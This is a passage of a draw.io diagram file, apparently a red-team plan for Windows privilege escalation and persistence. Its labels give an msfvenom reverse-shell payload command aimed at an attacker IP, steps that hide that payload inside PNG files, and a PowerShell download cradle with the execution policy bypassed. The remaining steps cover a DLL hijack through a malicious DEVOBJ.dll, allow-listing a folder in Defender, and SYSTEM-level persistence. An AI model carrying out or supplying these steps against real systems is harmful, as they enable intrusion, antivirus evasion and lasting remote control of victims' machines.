        <mxCell id="P6aCfQ930mBBJoiv-hOj-36" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-35" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-37" value="Port (9101)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-35" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-38" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="710" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-41" value="9101.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="370" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-42" value="Medium IL Tools Directory&#xa;(9101.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="P6aCfQ930mBBJoiv-hOj-41" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-43" value="EOP.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="30" y="40" width="140" height="90" as="geometry">
            <mxRectangle x="-827" y="400" width="90" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-44" value="Medium IL Tools Directory&#xa;(DEVOBJ.dll)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-43" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-45" value="Medium IL Tools Directory&#xa;(Allow-list A/V)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-43" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-39" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=1;entryY=0.5;entryDx=0;entryDy=0;exitX=0;exitY=0.5;exitDx=0;exitDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="P6aCfQ930mBBJoiv-hOj-30" edge="1">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="480" y="110" as="targetPoint" />
            <mxPoint x="315" y="230" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-1" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-47" target="P6aCfQ930mBBJoiv-hOj-54">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-47" value="Compile EOP Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="250" width="880" height="170" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-52" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-47" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-53" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-47" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-22" value="Compile EXE / DLL" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;fillColor=#FF6666;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-47">
          <mxGeometry x="70" y="40" width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-23" value="EOP.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-22">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-24" value="9001.cpp&lt;br&gt;" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-22">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-25" value="DEVOBJ.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-22">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-54" target="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-54" value="Stage EOP Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="460" width="580" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-55" value="EOP.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-56" value="9101.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-58" value="9101.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="450" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-26" value="DEVOBJ.dll" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-54">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-2" value="Execute EOP Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="-1230" y="620" width="990" height="330" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-3" value="Download staged binaries and png&#39;s to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-4" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/EOP.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-5" value="Execute EOP.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-6" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-3" target="c0Sctn81WB5nrNk0CtNy-5">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-28" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-9" target="c0Sctn81WB5nrNk0CtNy-27">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-9" value="Create &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="370" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-10" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-5" target="c0Sctn81WB5nrNk0CtNy-9">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-30" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-27" target="c0Sctn81WB5nrNk0CtNy-29">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-27" value="Copy legitimate fsavailux.exe to &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="370" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-32" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-29" target="c0Sctn81WB5nrNk0CtNy-31">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-29" value="Copy malicious DEVOBJ.dll to &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="530" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-34" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-31" target="c0Sctn81WB5nrNk0CtNy-33">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-31" value="Execute fsavailux.exe from &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="530" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-38" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-35">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-40" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-39">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-43" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-42">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-33" value="DLL Hijack through malicious DEVOBJ.dll" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="690" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-37" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-35" target="c0Sctn81WB5nrNk0CtNy-36">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-35" value="Execute 9101.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="690" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-36" value="Read Payload From 9101.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="840" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-16" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="840" y="85" width="120" height="35" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-39" value="Delete &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="840" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-42" value="Allow-list Medium IL Tools directory for Defender" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="690" y="262" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-44" value="Establish High IL&amp;nbsp;&lt;br&gt;/ SYSTEM Persistence" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="140" y="790" width="160" height="110" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-0" value="Update Persistance Payload Code" style="swimlane;fillColor=#FF6666;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="470" y="1000" width="1130" height="140" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-1" value="Pers_High.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-0">
          <mxGeometry x="20" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-2" value="High IL Tools Directory&#xa;(9201.exe / 9202.exe / 9203.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-5" value="9201.raw / 9202.raw / 9203.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-0">
          <mxGeometry x="470" y="40" width="180" height="90" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-6" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-5">
          <mxGeometry y="30" width="180" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-7" value="Port (9201 / 9202 / 9203)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-5">
          <mxGeometry y="60" width="180" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-8" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-0">
          <mxGeometry x="660" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-3" value="9201.cpp / 9202.cpp / 9203.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-0">
          <mxGeometry x="260" y="40" width="190" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-4" value="High IL Tools Directory&#xa;(9201.png / 9202.png / 9203.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-3">
          <mxGeometry y="30" width="190" height="40" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
